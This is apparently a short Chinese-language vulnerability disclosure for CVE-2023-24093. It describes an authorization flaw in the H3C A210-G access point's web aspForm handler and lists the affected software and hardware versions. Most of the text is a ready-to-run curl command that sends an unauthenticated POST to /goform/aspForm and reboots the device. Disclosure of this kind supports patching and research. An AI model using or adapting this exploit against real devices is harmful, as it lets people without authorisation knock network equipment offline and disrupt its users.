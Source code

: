 # CVE-2023-24093 H3C A210-G接入点Web aspForm授权漏洞

## 漏洞细节

H3C A210-G设备存在漏洞，允许未经授权的用户在没有密码的情况下进行操作

产品名称:H3C A210-G

软件版本:A210-GV100R005

Bootrom版本:106

硬件版本: VER.A

重启路由器Exp(192.168.21.2):

```
curl -k -i --raw -X POST -d "CMD=Reboot_Router&GO=do_rst.asp&SET0=RebootRouter%%3D1&nowait=1&location_addr=http%%3A%%2F%%2F192.168.21.2%%2Fdevice_restart.asp" "http://192.168.21.2/goform/aspForm" -H "Origin: http://192.168.21.2" -H "Referer: http://192.168.21.2/device_restart.asp"
```
